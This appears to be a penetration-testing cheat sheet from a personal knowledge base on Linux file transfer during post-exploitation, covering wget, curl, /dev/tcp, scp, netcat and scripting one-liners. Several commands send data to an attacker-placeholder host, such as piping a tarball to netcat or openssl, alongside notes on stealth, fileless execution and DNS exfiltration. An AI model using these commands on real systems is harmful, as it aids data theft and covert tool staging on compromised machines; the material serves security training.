 ```yaml
---
tags: [linux, file-transfer, post-exploitation, bash, shell]
aliases: [Linux Transfers, Linux File Transfer]
---
```


# 🐧 Linux File Transfer Methods Overview

> **Complete guide to file transfer techniques on Linux/Unix systems**

[[📁 File Transfer Master Index|← Back to Master Index]]

## 📥 Download Methods (To Target Machine)

### 🌐 Web Downloads
- [[Download Files to Target Machine/Web Downloads (Curl + Wget)|Curl & Wget]]
  ```bash
  wget http://IP/file
  curl -O http://IP/file
  ```
- [[Download Files to Target Machine/Download with Bash|Bash TCP Downloads]]
  ```bash
  exec 3<>/dev/tcp/IP/80
  echo -e "GET /file HTTP/1.1\r\nHost: IP\r\n\r\n" >&3
  cat <&3 > file
  ```

### 🔐 Secure Methods
- [[Download Files to Target Machine/SCP Download Files/SSH Downloads with SCP|SCP Downloads]]
  ```bash
  scp user@IP:/path/file ./file
  ```
- [[Download Files to Target Machine/SCP Download Files/more-usage-on-scp|Advanced SCP Usage]]

### 🎭 Stealth Methods
- [[Download Files to Target Machine/Base64 Encoding and Decoding for File Transfers|Base64 Transfer]]
  - Encode/decode for obfuscation
- [[Download Files to Target Machine/Fileless Attacks in Linux — Direct Execution|Fileless Execution]]
  - Memory-only execution

---

## 📤 Upload Methods (From Target Machine)

### 🌐 Web Uploads
- [[Upload Files to Attacker Machine/Quick Web File Transfer Method|Quick Web Server]]
  ```bash
  # Python server
  python3 -m http.server 8000
  # PHP server
  php -S 0.0.0.0:8000
  ```
- [[Upload Files to Attacker Machine/Web Upload with HTTPS|HTTPS Uploads]]
  - Secure web uploads

### 🔐 Secure Methods
- [[Upload Files to Attacker Machine/SCP Upload — Secure File Transfers Over SSH|SCP Uploads]]
  ```bash
  scp file user@IP:/path/
  ```

---

## 🎯 Quick Decision Matrix

| Scenario | Recommended Method | Fallback |
|----------|-------------------|----------|
| Standard Transfer | wget/curl | bash TCP |
| No wget/curl | Python/Perl | /dev/tcp |
| Large Files | rsync/scp | netcat |
| Stealth Required | Base64 | Fileless |
| Encrypted | SCP/SFTP | OpenSSL |
| Behind Firewall | HTTP/HTTPS | DNS tunnel |

---

## 🛠️ Alternative Methods by Available Tools

### Python Available
```python
# Download
python -c "import urllib.request; urllib.request.urlretrieve('http://IP/file', 'file')"
# Upload server
python3 -m http.server 8000
```

### Perl Available
```perl
# Download
perl -e 'use File::Fetch; my $ff = File::Fetch->new(uri => "http://IP/file"); $ff->fetch();'
```

### PHP Available
```php
# Download
php -r "file_put_contents('file', file_get_contents('http://IP/file'));"
# Upload server
php -S 0.0.0.0:8000
```

### Ruby Available
```ruby
# Download
ruby -e "require 'net/http'; File.write('file', Net::HTTP.get(URI('http://IP/file')))"
```

---

## 💡 Pro Tips

### Performance Optimization
1. **Compression**: Always compress large files
   ```bash
   tar czf - /path | nc IP 9999  # Compressed netcat
   ```
2. **Parallel transfers**: Use multiple connections
3. **Resume capability**: Use wget -c or curl -C

### Bypass Restrictions
- No outbound HTTP? Try DNS exfiltration
- No common tools? Use `/dev/tcp` or `/dev/udp`
- Limited shell? Use built-in commands only

### Common Issues & Solutions
| Issue | Solution |
|-------|----------|
| No wget/curl | Use bash TCP or scripting languages |
| Proxy required | Export http_proxy variable |
| SSL errors | Add --no-check-certificate |
| Slow transfer | Use compression or netcat |

---

## 📊 Method Comparison

| Method | Speed | Stealth | Reliability | Requirements |
|--------|-------|---------|-------------|--------------|
| wget/curl | ⭐⭐⭐ | ⭐⭐ | ⭐⭐⭐⭐ | Common tools |
| SCP | ⭐⭐⭐ | ⭐⭐⭐ | ⭐⭐⭐⭐ | SSH access |
| Netcat | ⭐⭐⭐⭐ | ⭐ | ⭐⭐⭐ | nc installed |
| Bash TCP | ⭐⭐ | ⭐⭐⭐ | ⭐⭐ | Bash only |
| Python | ⭐⭐⭐ | ⭐⭐ | ⭐⭐⭐ | Python |

---

## 🔍 Special Techniques

### Living off the Land
```bash
# Using openssl
openssl s_client -connect IP:443 -quiet < file.tar.gz

# Using telnet
(echo "GET /file HTTP/1.0"; echo; sleep 1) | telnet IP 80

# Using ssh
ssh user@IP "cat file" > file
```

### Bandwidth Limited Transfer
```bash
# Rate limit with pv
cat file | pv -L 1m | nc IP 9999  # 1MB/s limit
```

---

## 🔗 Related Techniques
- [[../Netcat + Ncat File Transfers|Netcat Transfers]]
- [[../LOTL File Transfers|Living off the Land]]
- [[../Protected File Transfers|Encrypted Transfers]]
- [[../File Transfers with Code|Code-based Transfers]]

---

## 🏷️ Tags
#linux #file-transfer #bash #shell #post-exploitation #download #upload #scp #wget #curl